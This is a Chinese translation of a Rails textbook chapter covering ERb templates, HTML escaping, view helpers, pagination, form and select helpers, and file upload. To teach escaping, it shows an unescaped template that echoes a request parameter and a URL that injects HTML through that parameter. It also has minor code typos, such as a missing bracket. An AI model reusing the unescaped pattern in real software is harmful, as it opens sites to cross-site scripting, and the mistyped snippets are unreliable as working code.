¹ Builder 可在 RubyForge（http://builder.rubyforge.org/）上获取，也可通过 RubyGems 安装。Rails 附带了自己的 Builder 副本，因此你无需下载任何内容即可开始使用。


## 19.3 RHTML 模板

最简单的 RHTML 模板就是一个普通的 HTML 文件。如果模板不包含任何动态内容，它会被原样发送到用户的浏览器。以下就是一个完全有效的 RHTML 模板。

```html
<h1>Hello, Dave!</h1>
<p>
    How are you, today?
</p>
```

然而，仅仅渲染静态模板的应用往往有点无聊。我们可以用动态内容来增添趣味。

```erb
<h1>Hello, Dave!</h1>
<p>
    It's <%= Time.now %>
</p>
```

如果你是 JSP 程序员，你会认出这是一种内联表达式：`<%= %>` 和 `%>` 之间的任何代码都会被求值，结果通过 `to_s()` 转换成字符串，然后该字符串被替换到生成的页面中。标签内的表达式可以是任意代码。

```erb
<h1>Hello, Dave!</h1>
<p>
    It's <%= require 'date'
           DAY_NAMES = %w{ Sunday Monday Tuesday Wednesday Thursday Friday Saturday }
           today = Date.today
           DAY_NAMES[today.wday]
    %>
</p>
```

在模板中放入大量业务逻辑通常被认为是一件非常糟糕的事情，如果你被发现这样做，可能会招致编码警察的怒火。我们将在讨论辅助方法（第 406 页）时介绍一种更好的处理方式。

有时你需要在模板中编写不直接生成任何输出的代码。如果在开始标签中省略等号，代码会被执行，但不会向模板插入任何内容。我们可以将前面的示例改写为：

```erb
<% require 'date'
DAY_NAMES = %w{ Sunday Monday Tuesday Wednesday
Thursday Friday Saturday }
today = Date.today
%>
<h1>Hello, Dave!</h1>
<p>
  It's <%= DAY_NAMES[today.wday] %>.
  Tomorrow is <%= DAY_NAMES[(today + 1).wday %>.
</p>
```

在 JSP 世界中，这被称为脚本小程序（scriptlet）。同样，如果有人发现你在模板中添加代码，他们会责备你。忽略他们——他们正陷入教条的泥潭。在模板中放代码本身没有错。只是不要放太多代码（尤其不要在模板中放业务逻辑）。我们稍后会看到如何使用辅助方法更好地完成前面的示例。

你可以把代码片段之间的 HTML 文本想象成每一行都由一个 Ruby 程序写入。`<%...%>` 片段被添加到同一个程序中。HTML 与你编写的显式代码交织在一起。因此，`<%` 和 `%>` 之间的代码可以影响模板其余部分的 HTML 输出。

例如，考虑以下模板：

```erb
<% 3.times do %>
Ho!<br/>
<% end %>
```

内部，模板代码会将其转换为类似以下的形式：

```ruby
3.times do
  puts "Ho!<br/>"
end
```

结果？你会在浏览器中看到短语“Ho!”被写了三次。

最后，你可能已经注意到本书中的示例代码，其中 ERb 块以 `-%>` 结束。减号告诉 ERb 不要在生成的 HTML 文件中包含后面跟着的换行符。在以下示例中，输出的第一行和第二行之间不会有空行。

```erb
line one
<% @time = Time.now -%>
line two
```

### 转义替换值

关于使用 RHTML 模板，有一件至关重要的事情你必须知道。当你使用 `<%=...%>` 插入一个值时，它会直接进入输出流。考虑以下情况。

```erb
The value of name is <%= params[:name] %>
```

在正常情况下，这将替换请求参数 `name` 的值。但如果我们的用户输入了以下 URL 呢？

```text
http://x.y.com/myapp?name=Hello%20%3cb%3ethere%3c/b%3e
```

奇怪的序列 `%3cb%3ethere%3c/b%3e` 是 HTML `<b>there</b>` 的 URL 编码版本。我们的模板会将其替换进去，页面上将显示单词“there”为粗体。

这看起来可能没什么大不了，但往好了说，它让你的页面容易被恶意篡改。往坏了说，正如我们将在第 23 章《保护你的 Rails 应用》（第 510 页）中看到的那样，这是一个巨大的安全漏洞，使你的网站容易受到攻击和数据丢失。

幸运的是，解决方案很简单。始终转义任何你替换到模板中的、非 HTML 格式的文本。RHTML 模板提供了一个方法来完成这项工作。它的全名是 `html_escape()`，但大多数人只称它为 `h()`。

```erb
The value of name is <%= h(params[:name]) %>
```

养成在输入 `<%=` 后立即输入 `h(` 的习惯。

如果你需要将 HTML 格式的文本替换到模板中，就不能使用 `h()` 方法，因为 HTML 标签会被转义：用户将看到 `<em>hello</em>` 而不是 *hello*。然而，你不应该直接采用他人创建的 HTML 并在你的页面上显示。正如我们将在第 23 章《保护你的 Rails 应用》（第 510 页）中看到的，这会使你的应用容易受到多种攻击。

`sanitize()` 方法提供了一些保护。它接受一个包含 HTML 的字符串并清理危险元素：`<form>` 和 `<script>` 标签会被转义，`on=` 属性和以 `javascript:` 开头的链接会被移除。

我们的 Depot 应用中的产品描述是作为 HTML 渲染的（即，它们没有使用 `h()` 方法进行转义）。这允许我们在其中嵌入格式信息。如果我们允许组织外部的人输入这些描述，使用 `sanitize()` 方法来降低网站成功被攻击的风险将是谨慎之举。

> **David 说……**
>
> **模板语言在哪里？**
>
> 许多环境都对视图中的代码这一理念嗤之以鼻——理由很充分。并非所有编程语言都擅长以简洁有效的方式处理表现逻辑。为了应对，这些环境提出了一种替代语言，在处理视图时用它来代替主要语言。PHP 有 Smarty，Java 有 Velocity，Python 有 Cheetah。
>
> Rails 没有任何替代品，因为 Ruby 已经是一种非常适合处理表现逻辑的语言。你需要显示帖子的、大写的正文，但截断到 30 个字符吗？这是用 Ruby 编写的视图代码。
>
> `<%= truncate(@post.body.capitalize, 30) %>`
>
> 除了适合表现逻辑之外，在视图中使用 Ruby 还减少了在应用不同层之间切换的心理负担。一切都是 Ruby——用于配置、模型、控制器和视图。

## 19.4 辅助方法

之前我们说过在模板中放代码是可以的。现在我们要修改这个说法。在模板中放一些代码是完全没问题的——这正是它们动态的原因。然而，在模板中放太多代码则是糟糕的风格。

这主要有两个原因。首先，你在应用的视图层放的代码越多，就越容易放松纪律，开始在模板代码中添加应用级别的功能。这绝对是糟糕的做法；你应该把应用的东西放在控制器和模型层，这样它们才能在任何地方可用。当你添加新的应用查看方式时，这将会有回报。

另一个原因是 `.rhtml` 基本上就是 HTML。当你编辑它时，你是在编辑一个 HTML 文件。如果你有幸让专业设计师创建布局，他们会希望处理 HTML。在里面放一堆 Ruby 代码只会让协作变得困难。

Rails 通过辅助方法（helpers）提供了一个很好的折中方案。辅助方法仅仅是一个包含辅助视图的方法的模块。辅助方法是面向输出的。它们的存在是为了生成 HTML（或 XML）——辅助方法扩展了模板的行为。

默认情况下，每个控制器都有自己的辅助方法模块。Rails 会做出某些假设来帮助将辅助方法连接到控制器及其视图，这并不奇怪。如果控制器名为 `BlogController`，它会自动在 `app/helpers` 目录下的 `blog_helper.rb` 文件中寻找名为 `BlogHelper` 的辅助方法模块。你不必记住所有这些细节——`generate controller` 脚本会自动创建一个存根辅助方法模块。

例如，我们商店控制器的视图可能从实例变量 `@page_title` 设置生成页面的标题（这个变量可能是由控制器设置的）。如果 `@page_title` 没有设置，模板会使用文本“Pragmatic Store”。每个视图模板的顶部可能看起来像这样：

```erb
<h3><%= @page_title || "Pragistic Store" %></h3>
<!-- ... -->
```

我们希望消除模板之间的重复：如果商店的默认名称改变了，我们不想编辑每个视图。所以让我们把计算页面标题的代码移到一个辅助方法中。由于我们在商店控制器中，我们编辑 `app/helpers` 中的 `store_helper.rb` 文件。

```ruby
module StoreHelper
  def page_title
    @page_title || "Pragistic Store"
  end
end
```

现在视图代码只需调用辅助方法。

```erb
<h3><%= page_title %></h3>
<!-- ... -->
```

（我们可能希望通过将整个标题的渲染移到一个单独的局部模板中来消除更多的重复，该模板由控制器的所有视图共享，但我们直到第 19.9 节《局部页面模板》（第 435 页）才会讨论它们。）

### 共享辅助方法

有时一个辅助方法非常好，你必须在所有的控制器中共享它。也许你有一个花哨的日期格式化辅助方法，想在所有控制器中使用。你有两个选择。

## 19.5 格式化辅助方法

Rails 内置了一系列辅助方法，可供所有视图使用。本节将介绍其中最常用的一些，但更详细的内容可能需要查阅 Action View 的 RDoc 文档——那里包含了大量实用功能。

其中一组辅助方法用于格式化日期、数字和文本。

```erb
<%= distance_of_time_in_words(Time.now, Time.local(2005, 12, 25)) %>
    248 days

<%= distance_of_time_in_words(Time.now, Time.now + 33, false) %>
    1 minute

<%= distance_of_time_in_words(Time.now, Time.now + 33, true) %>
    half a minute

<%= time_ago_in_words(Time.local(2004, 12, 25)) %>
    116 days

<%= human_size(123_456) %>
    120.6 KB

<%= number_to_currency(123.45) %>
    $123.45

<%= number_to_currency(234.56, :unit => "CAN$", :precision => 0) %>
    CAN$235.

<%= number_to_percentage(66.66666) %>
    66.667%

<%= number_to_percentage(66.66666, :precision => 1) %>
    66.7%

<%= number_to_phone(2125551212) %>
    212-555-1212

<%= number_to_phone(2125551212, :area_code => true, :delimiter => " ") %>
    (212) 555 1212

<%= number_with_delimiter(12345678) %>
    12,345,678

<%= number_with_delimiter(12345678, delimiter = "_") %>
    12_345_678

<%= number_with_precision(50.0/3) %>
    16.667

<%= number_with_precision(50.0/3, 1) %>
    16.7
```

`debug()` 方法使用 YAML 格式输出其参数，并对结果进行转义，以便在 HTML 页面中显示。这在查看模型对象或请求参数的值时非常有用。

```erb
<%= debug(params) %>
--- !ruby/hash:HashWithIndifferentAccess
name: Dave
language: Ruby
action: objects
controller: test
```

另一组辅助方法用于处理文本。其中包含截断字符串和高亮显示字符串中单词的方法（例如，可用于展示搜索结果）。

```erb
<%= simple_format(@trees) %>
```

该方法会格式化字符串，并保留换行和段落分隔。你可以将乔伊斯·基尔默的诗《*树木*》的纯文本传递给它，它会添加 HTML 以进行如下格式化：

```html
<p> I think that I shall never see
<br />A poem lovely as a tree.</p>

<p>A tree whose hungry mouth is prest
<br />Against the sweet earth's flowing breast;
</p>
```

```erb
<%= excerpt(@trees, "lovely", 8) %>
```

```text
...A poem lovely as a tre...
```

```erb
<%= highlight(@trees, "tree") %>
```

```html
I think that I shall never see
A poem lovely as a <strong class="highlight">tree</strong>.

A <strong class="highlight">tree</strong> whose hungry mouth is prest
Against the sweet earth's flowing breast;
```

```erb
<%= truncate(@trees, 20) %>
```

```text
I think that I sh...
```

还有一个用于名词单复数转换的方法。

```erb
<%= pluralize(1, "person") %> but <%= pluralize(2, "person") %>
```

```text
1 person but 2 people
```

如果你想实现像那些炫酷网站一样的功能，自动将 URL 和电子邮件地址转换为超链接，有一个辅助方法可以做到这一点。还有另一个辅助方法可以去除文本中的超链接。

最后，如果你正在编写类似博客网站的东西，或者允许用户在你的商店添加评论，你可以为他们提供以 Markdown（BlueCloth）² 或 Textile（RedCloth）³ 格式创建文本的功能。这些是简单的格式化器，可以将带有非常简单、人类友好的标记的文本转换为 HTML。如果你在系统中安装了相应的库，⁴ 就可以使用 `markdown()` 和 `textilize()` 辅助方法将这些文本渲染到视图中。

² <http://bluecloth.rubyforge.org/>

³ <http://www.theluckystiff.net/ruby/redcloth/>

⁴ 如果你使用 RubyGems 安装这些库，需要在 `environment.rb` 中添加相应的 `require_gem`。

## 19.6 链接到其他页面和资源

`ActionView::Helpers::AssetTagHelper` 和 `ActionView::Helpers::UrlHelper` 模块包含许多方法，允许你引用当前模板外部的资源。其中最常用的是 `link_to()`，它用于创建指向应用程序中其他操作的超链接。

```erb
<%= link_to "Add Comment", :action => "add_comment" %>
```

`link_to()` 的第一个参数是链接显示的文本。下一个参数是指定链接目标的哈希值。这使用了与控制器 `url_for()` 方法相同的格式，我们在第 352 页讨论过。

第三个参数可用于设置生成链接的 HTML 属性。这个属性哈希支持一个额外的键 `:confirm`，其值为一条简短消息。如果存在此键，将生成 JavaScript 代码以显示该消息，并在跟随链接之前获取用户的确认。

```erb
<%= link_to "Delete", { :controller => "admin",
                            :action     => "delete",
                            :id         => @product },
                        { :class     => "redlink",
                          :confirm   => "Are you sure?" }
%>
```

`button_to()` 方法的工作原理与 `link_to()` 类似，但它生成一个位于独立表单中的按钮，而不是一个直接的超链接。正如我们在第 397 页第 18.9 节“GET 请求的问题”中所讨论的，这是链接到有副作用的操作的首选方法。然而，这些按钮存在于自己的表单中，这带来了一些限制：它们不能内联显示，也不能出现在其他表单内部。

还有一些条件链接方法，如果满足某个条件则生成超链接，否则只返回链接文本。`link_to_unless_current()` 辅助方法对于在侧边栏中创建菜单非常有用，当前页面的名称显示为纯文本，其他条目则为超链接。

```erb
<ul>
<% %w{ create list edit save logout }.each do |action| -%>
  <li>
    <%= link_to_unless_current(action.capitalize, :action => action) %>
  </li>
<% end -%>
</ul>
```


与 `url_for()` 一样，`link_to()` 及其相关方法也支持绝对 URL。

```erb
<%= link_to("Help", "http://my.site/help/index.html") %>
```

`image_tag()` 辅助方法可用于创建 `` 标签。

```erb
<%= image_tag("/old_images/dave.png", :class => "bevel", :size => "80x120") %>
```

如果图像路径不包含 `/` 字符，Rails 会假定它位于 `/images` 目录下。如果没有文件扩展名，Rails 会假定为 `.png`。以下示例等同于前面的示例。

```erb
<%= image_tag("dave", :class => "bevel", :size => "80x120") %>
```

你可以通过结合 `link_to()` 和 `image_tag()` 将图像转换为链接。

```erb
<%= link_to(image_tag("delete.png", :size => "50x22"),
           { :controller => "admin",
             :action     => "delete",
             :id         => @product },
           { :confirm    => "Are you sure?" })
%>
```

`mailto()` 辅助方法创建一个 `mailto:` 超链接，点击时通常会加载客户端的电子邮件应用程序。它接受一个电子邮件地址、链接名称以及一组 HTML 选项。在这些选项中，你还可以使用 `:bcc`、`:cc`、`:body` 和 `:subject` 来初始化相应的电子邮件字段。最后，神奇的选项 `:encode=>"javascript"` 使用客户端 JavaScript 来混淆生成的链接，使得网络爬虫更难从你的网站收集电子邮件地址。⁵

```erb
<%= mail_to("support@pragprog.com", "Contact Support",
           :subject => "Support question from #{user.name}",
           :encode  => "javascript") %>
```

`AssetTagHelper` 模块还包含一些辅助方法，可以方便地将样式表和 JavaScript 代码链接到页面，以及创建自动发现的 RSS 或 Atom 订阅源链接。我们在布局中创建了一个样式表链接……

> ⁵但这同时也意味着，如果用户在浏览器中禁用了 JavaScript，他们将看不到这个电子邮件链接。

以 Depot 应用为例，我们在 `<head>` 中使用了 `stylesheet_link_tag()` 方法。

```erb
<%= stylesheet_link_tag "depot", :media => "all" %>
```

RSS 或 Atom 链接是一个头部字段，指向我们应用程序中的一个 URL。当访问该 URL 时，应用程序应返回相应的 RSS 或 Atom XML。

```erb
<html>
  <head>
    <%= auto_discovery_link_tag(:rss, :action => 'rss_feed') %>
  </head>
  . . .
```

最后，`JavaScriptHelper` 模块定义了许多用于处理 JavaScript 的辅助方法。它们生成在浏览器中运行的 JavaScript 代码片段，用于产生特殊效果，并让页面与我们的应用程序动态交互。这是第 20 章 "The Web, V2.0"（第 451 页）的主题。

默认情况下，图片和样式表资源被假定位于运行应用程序的主机的 `/images` 和 `/stylesheets` 目录中。如果传递给资源标签方法的路径包含正斜杠，则该路径被视为绝对路径，不会添加前缀。有时将这些静态内容移动到单独的服务器或当前服务器的不同位置是有意义的。可以通过设置配置变量 `asset_host` 来实现。

```ruby
ActionController::Base.asset_host = "http://media.my.url/assets"
```

## 19.7 分页

一个社区站点可能有成千上万的注册用户。我们可能想创建一个管理操作来列出这些用户，但将数千个名字一次性显示在一个页面上有些不妥。相反，我们希望将输出分成多个页面，并允许用户在这些页面之间前后滚动。

Rails 使用分页来实现这一点。分页在控制器层和视图层都起作用。在控制器中，它控制从数据库中获取哪些行。在视图中，它显示在不同页面间导航所需的链接。

让我们从控制器开始。我们已决定在显示用户列表时使用分页。在控制器中，我们为 users 表声明一个分页器。

```ruby
def user_list
  @user_pages, @users = paginate(:users, :order => 'name')
end
```

这个声明返回两个对象。`@user_pages` 是一个分页器对象。它将用户模型对象分成页面，默认每页包含 10 行。它还将一页用户加载到 `@users` 变量中。我们的视图可以使用这个变量来显示用户，每次显示 10 个。分页器通过查找一个请求参数（默认为 `page`）来知道应该显示哪一组用户。如果请求没有 `page` 参数，或者 `page=1`，分页器会将 `@users` 设置为表中的前 10 个用户。如果 `page=2`，则返回第 11<sup>个</sup>到第 20<sup>个</sup>用户。（如果你想使用 `page` 以外的参数来确定页码，你可以覆盖它。请参阅 RDoc。）

在视图文件 `user_list.rhtml` 中，我们使用传统的循环遍历分页器创建的 `@users` 集合来显示用户。我们使用 `pagination_links()` 辅助方法来构建一组指向其他页面的链接。默认情况下，这些链接显示当前页的前两页和后两页的页码，以及第一页和最后一页的页码。

```erb
<table>
  <tr><th>Name</th></tr>
  <% for user in @users %>
    <tr><td><%= user.name %></td></tr>
  <% end %>
</table>

<hr>
<%= pagination_links(@user_pages)  %>
<hr>
```

导航到 `user_list` 操作，你将看到第一页的姓名。点击底部的分页链接中的数字 2，第二页就会出现（如接下来页面中的图 19.1 所示）。

此示例代表了中等程度的分页：我们在 `user_list` 操作中明确地定义了分页。我们也可以通过在类级别使用 `paginate` 声明，为控制器中的每个操作隐式地定义分页。或者，我们可以走向另一个极端，手动创建 Paginator 对象并自行填充当前页面数组。这些不同的用法都在 RDoc 中有所涵盖。

## 19.8 表单辅助方法

Rails 具有一个完全集成的 Web 技术栈。这在模型、控制器和视图组件如何协同工作以支持在数据库表中创建和编辑信息方面表现得最为明显。

接下来页面中的图 19.2 展示了模型中的各种属性如何通过控制器传递到视图，再到 HTML 页面，最后又回到模型。模型对象具有诸如 `name`、`country` 和 `password` 等属性。模板使用辅助方法（我们稍后将讨论）来构建一个 HTML 表单，让用户编辑模型中的数据。注意表单字段的命名方式。例如，`country` 属性被映射到一个名为 `user[country]` 的 HTML 输入字段。

当用户提交表单时，原始的 POST 数据会发送回我们的应用程序。Rails 从表单中提取字段并构建 `params` 哈希。简单值（例如由路由从表单操作中提取的 `id` 字段）以标量形式存储在哈希中。但是，如果参数名称中包含括号，Rails 会假定它是更结构化数据的一部分，并构建一个哈希来保存这些值。在这个哈希内部，括号内的字符串被用作键。如果参数名称包含多组括号，此过程可以重复。

| 表单参数 | params |
| --- | --- |
| `id=123` | `{ :id => "123" }` |
| `user[name]=Dave` | `{ :user => { :name => "Dave" } }` |
| `user[address][city]=Wien` | `{ :user => { :address => { :city => "Wien" } }` }` |

在集成整体的最后部分，模型对象可以接受来自哈希的新属性值，这允许我们使用如下语句：

```ruby
user.update_attributes(params[:user])
```

Rails 的集成远不止于此。查看图 **19.2** 中的 `.rhtml` 文件，你可以看到模板使用了一组辅助方法来创建表单的 HTML，这些方法如 `form_tag()` 和 `text_field()`。接下来让我们看看这些辅助方法。

### 表单辅助方法

模板中的 HTML 表单应以 `form_tag()` 开头，以 `end_form_tag()` 结尾。`form_tag()` 的第一个参数是一个哈希，用于标识表单提交时要调用的操作。这个哈希接受与 `url_for()` 相同的选项（见第 **357** 页）。一个可选的第二个参数是另一个哈希，让你可以设置 HTML 表单标签本身的属性。一个特殊情况是，如果这个哈希包含 `:multipart => true`，表单将返回多部分表单数据，使其可用于文件上传（参见第 **19.8** 节 "Uploading Files to Rails Applications"，第 **425** 页）。

```erb
<%= form_tag { :action => :save }, { :class => "compact" } %>
```

`end_form_tag()` 不接受参数。

### 字段辅助方法

Rails 为文本字段（常规、隐藏、密码和文本域）、单选按钮和复选框提供了集成的辅助方法支持。（它也支持 `type="file"` 的 `<input>` 标签，但我们将在第 **19.8** 节 "Uploading Files to Rails Applications"，第 **425** 页中讨论它们。）

所有辅助方法至少接受两个参数。第一个是实例变量的名称（通常是一个模型对象）。第二个参数命名该实例变量的属性，用于在设置字段值时查询。这两个参数共同生成 HTML 标签。参数可以是字符串或符号；惯用的 Rails 使用符号。

所有辅助方法也接受一个选项哈希，通常用于设置 HTML 标签的 class。这通常是可选的第三个参数；对于单选按钮，它是第四个。但是，在你开始设计一个使用 class 和 CSS 来标记无效字段的复杂方案之前，请继续阅读。正如我们稍后将看到的，Rails 让这变得很简单。

### 文本字段

- `text_field(:variable, :attribute, options)`
- `hidden_field(:variable, :attribute, options)`
- `password_field(:variable, :attribute, options)`

分别构建类型为 text、hidden 或 password 的 `<input>` 标签。默认内容将从 `@variable.attribute` 获取。常用选项包括 `:size=>"nn"` 和 `:maxlength=>"nn"`。

### 文本区域

`text_area(:variable, :attribute, options)`

构建一个二维文本区域（使用 HTML 的 `<textarea>` 标签）。常用选项包括 `:cols=>"nn"` 和 `:rows=>"nn"`。

### 单选按钮

`radio_button(:variable, :attribute, tag_value, options)`

创建一个单选按钮。通常，对于给定的属性会有多个单选按钮，每个按钮具有不同的标签值。当按钮显示时，标签值与属性当前值匹配的那个按钮将被选中。如果用户选择了不同的单选按钮，其标签值将存储在字段中。

### 复选框

`check_box(:variable, :attribute, options, on_value, off_value)`

创建一个与给定属性绑定的复选框。如果属性值为 true，或者属性值转换为整数后非零，则复选框将被选中。

随后返回给应用程序的值由第四个和第五个参数设置。默认值设置为：如果复选框选中，则属性为 "1"，否则为 "0"。

### 选择列表

选择列表是那些内置了人工智能的下拉列表框，它保证你想要的选择只有在滚动经过其他所有人的选择后才能到达。

选择列表包含一组选项。每个选项都有一个显示字符串和一个可选的 value 属性。显示字符串是用户看到的内容，如果选中该选项，value 属性将被发送回应用程序。对于普通选择列表，可以标记一个选项为选中状态；其显示字符串将是向用户显示的默认值。对于多选列表，可以选中多个选项，在这种情况下，它们所有的值都将发送到应用程序。

基本的选择列表使用 `select()` 辅助方法创建。

```ruby
select(:variable, :attribute, choices, options, html_options)
```

`choices` 参数用于填充选择列表。该参数可以是任何可枚举对象（因此数组、哈希和数据库查询的结果都是可接受的）。

最简单的 `choices` 形式是一个字符串数组。每个字符串成为下拉列表中的一个选项，如果其中一个与 `@variable.attribute` 的当前值匹配，则它将被选中。（这些示例假设 `@user.name` 设置为 Dave。）

```ruby
### app/views/test/select.rhtml

<%= select(:user, :name, %w{ Andy Bert Chas Dave Eric Fred }) %>
```

这将生成以下 HTML。

```html
<select id="user_name" name="user[name]">
  <option value="Andy">Andy</option>
  <option value="Bert">Bert</option>
  <option value="Chas">Chas</option>
  <option value="Dave" selected="selected">Dave</option>
  <option value="Eric">Eric</option>
  <option value="Fred">Fred</option>
</select>
```

如果 `choices` 参数中的每个元素都响应 `first()` 和 `last()`（如果每个元素本身是一个数组，就会是这种情况），选项将使用第一个值作为显示文本，最后一个值作为内部键。

```ruby
### app/views/test/select.rhtml

<%= select(:user, :id, [ ['Andy', 1],
                      ['Bert', 2],
                      ['Chas', 3],
                      ['Dave', 4],
                      ['Eric', 5],
                      ['Fred', 6]]) %>
```

此示例显示的列表将与第一个相同，但它传回给应用程序的值将是 1、2、3 或 ...，而不是 Andy、Bert 或 Chas。生成的 HTML 是：

```html
<select id="user_id" name="user[id]">
    <option value="1">Andy</option>
    <option value="2">Bert</option>
    <option value="3">Chas</option>
    <option value="4" selected="selected">Dave</option>
    <option value="5">Eric</option>
    <option value="6">Fred</option>
</select>
```

最后，如果你传递一个哈希作为 `choices` 参数，键将用作显示文本，值作为内部键。因为它是哈希，所以你无法控制生成列表中条目的顺序。


应用程序通常需要根据存储在数据库表中的信息构建选择框。一种方法是让模型的 `find()` 方法填充 `choices` 参数。尽管我们在这个代码片段中显示 `find()` 调用紧挨着 `select`，实际上 `find` 可能会在控制器或辅助模块中。

```ruby
### app/views/test/select.rhtml

<%=
@users = User.find(:all, :order => "name").map {|u| [u.name, u.id] }
select(:user, :name, @users)
%>
```

请注意我们如何获取结果集并将其转换为数组的数组，其中每个子数组包含 `name` 和 `id`。

实现相同效果的更高级方法是使用 `collection_select()`。它接受一个集合，其中每个成员都具有返回显示字符串和键的属性。在此示例中，集合是用户模型对象的列表，我们使用这些模型的 `id` 和 `name` 属性来构建我们的选择列表。

```ruby
### app/views/test/select.rhtml

<%=
@users = User.find(:all, :order => "name")
collection_select(:user, :name, @users, :id, :name)
%>
```

### 分组选择列表

分组是选择列表一个很少使用但功能强大的特性。你可以用它们来为列表中的条目添加标题。图 19.3 显示了一个包含三个分组的选择列表。

### 图 19.3：带有分组选项的选择列表



完整的选择列表表示为一个分组数组。每个分组是一个具有名称和子选项集合的对象。在下面的示例中，我们将设置一个包含按交付速度分组的运输选项的列表。在辅助模块中，我们将定义一个结构来保存每个运输选项，以及一个定义选项组的类。我们将静态初始化它（在真实应用程序中，你可能会从表中拖入数据）。

```ruby
### app/helpers/test_helper.rb

ShippingOption = Struct.new(:id, :name)

class ShippingType
  attr_reader :type_name, :options
  def initialize(name)
    @type_name = name
    @options = []
  end
  def <<(option)
    @options << option
  end
end


ground = ShippingType.new("SLOW")
ground << ShippingOption.new(100, "Ground Parcel")
ground << ShippingOption.new(101, "Media Mail")

regular = ShippingType.new("MEDIUM")
regular << ShippingOption.new(200, "Airmail")
regular << ShippingOption.new(201, "Certified Mail")
```

```ruby
priority = ShippingType.new("FAST")
priority << ShippingOption.new(300, "Priority")
priority << ShippingOption.new(301, "Express")

SHIPPING_OPTIONS = [ground, regular, priority]
```

在视图中，我们将创建选择控件来显示列表。没有高级的包装器能同时创建 `<select>` 标签并填充分组的选项集合，因此我们必须使用（命名绝妙的）`option_groups_from_collection_for_select()` 方法。该方法接收分组集合、用于查找分组和项目的访问器名称，以及模型中的当前值。我们将其放在一个以模型和属性命名的 `<select>` 标签内。以下代码展示了这一点。

```erb
Download e1/views/app/views/test/select.rhtml
<label for="order_shipping_option">Shipping: </label>
<select name="order[shipping_option]" id="order_shipping_option">
  <%=
    option_groups_from_collection_for_select(SHIPPING_OPTIONS,
                                            :options, :type_name, # <- groups
                                            :id, :name,           # <- items
                                            @order.shipping_option)
  %>
</select>
```

最后，还有一些高级辅助方法，可以轻松创建国家、时区等的选择列表。详情请参阅 RDoc。

### 日期和时间字段

```ruby
date_select(:variable, :attribute, options)
datetime_select(:variable, :attribute, options)

select_date(date = Date.today, options)
select_day(date, options)
select_month(date, options)
select_year(date, options)

select_datetime(date = Time.now, options)
select_hour(time, options)
select_minute(time, options)
select_second(time, options)
select_time(time, options)
```

日期选择控件有两套。第一套，`date_select()` 和 `datetime_select()`，创建的控件可与 Active Record 模型的日期和日期时间属性一起使用。第二套，`select_xxx` 变体，在没有 Active Record 支持的情况下也能很好地工作。图 19.4 在下一页展示了这些方法的一些实际应用。

`select_xxx` 控件默认命名为 `date[xxx]`，因此在控制器中，你可以通过 `params[:date][:minute]` 访问分钟选择。你可以使用 `:prefix` 选项更改 `date` 前缀，并使用 `:discard_type` 选项禁用在方括号中添加字段类型。`:include_blank` 选项会向列表中添加一个空白选项。

`select_minute()` 方法支持 `:minute_step => nn` 选项。例如，将其设置为 15，则只会列出 0、15、30 和 45 这几个选项。

`select_month()` 方法通常列出月份名称。设置 `:add_month_numbers => true` 选项可以同时显示月份数字，或者设置 `:use_month_numbers => true` 选项只显示数字。



图 19.4：日期选择辅助方法

`select_year()` 方法默认列出当前年份前后五年的范围。这可以使用 `:start_year => yyyy` 和 `:end_year => yyyy` 选项进行更改。

`date_select()` 和 `datetime_select()` 创建的控件允许用户使用选择列表在 Active Record 模型中设置日期（或日期时间）。存储在 `@variable.attribute` 中的日期用作默认值。显示包含年份、月份、日期（以及小时、分钟、秒）的独立选择列表。可以通过设置 `:discard_month => 1`、`:discard_day => 1` 等选项从显示中移除特定字段的选择列表。只需设置一个 `discard` 选项即可——所有更小的单位会自动移除。`date_select()` 的字段显示顺序可以使用 `:order => (:symbols,...)` 选项设置，其中符号是 `:year`、`:month` 和 `:day`。此外，还支持 `select_xxx` 控件的所有选项。

### 将文件上传到 Rails 应用程序

你的应用程序可能允许用户上传文件。例如，一个错误报告系统可能允许用户将日志文件和代码示例附加到问题工单，或者一个博客应用程序可能允许用户上传一张小图片显示在他们的文章旁边。

在 HTTP 中，文件通过一种特殊类型的 POST 消息上传，称为 multipart/form-data。顾名思义，这种类型的消息是由表单生成的。在该表单内，你将使用一个或多个带有 `type="file"` 的 `<input>` 标签。当被浏览器渲染时，此标签允许用户通过文件名选择一个文件。当表单随后提交时，文件将与表单的其余数据一起发送回服务器。

为了说明文件上传过程，我们将展示一些代码，允许用户上传图片并在评论旁边显示该图片。为此，我们首先需要一个 `pictures` 表来存储数据。（本示例使用 MySQL。如果你使用不同的数据库，你很可能需要调整 DDL。）

```sql
Download el/views/db/create.sql
create table pictures (
    id              int             not null auto_increment,
    comment         varchar(100),
    name            varchar(200),
    content_type    varchar(100),
    data            blob,
    primary key (id)
);
```

我们将创建一个有些人为设计的上传控制器来演示这个过程。`get` 动作相当常规；它只是创建一个新的 `picture` 对象并渲染一个表单。

```ruby
Download el/views/app/controllers/upload_controller.rb
class UploadController < ApplicationController
  def get
    @picture = Picture.new
  end
end
```

`get` 模板包含上传图片（以及评论）的表单。注意我们如何覆盖编码类型以允许数据随响应一起发送回去。

```erb
Download el/views/app/views/upload/get.rhtml
<%= error_messages_for("picture") %>
<%= form_tag({:action => 'save'}, :multipart => true) %>
    Comment: <%= text_field("picture", "comment") %>
    <br/>
    Upload your picture: <%= file_field("picture", "picture") %>
    <br/>
    <%= submit_tag("Upload file") %>
<%= end_form_tag %>
```

这个表单还有一个微妙之处。图片被上传到一个名为 `picture` 的属性中。然而，数据库表中并不包含该名称的列。这意味着模型中一定有一些魔法在发生。

```ruby
Download e1/views/app/models/picture.rb
class Picture < ActiveRecord::Base
    validates_format_of :content_type, :with => /^image/,
                       :message => "-- you can only upload pictures"

    def picture=(picture_field)
        self.name = base_part_of(picture_field.original_filename)
        self.content_type = picture_field.content_type.chomp
        self.data = picture_field.read
    end

    def base_part_of(file_name)
        name = File.basename(file_name)
        name.gsub(/[^[\w.-]]/, '')
    end
end
```

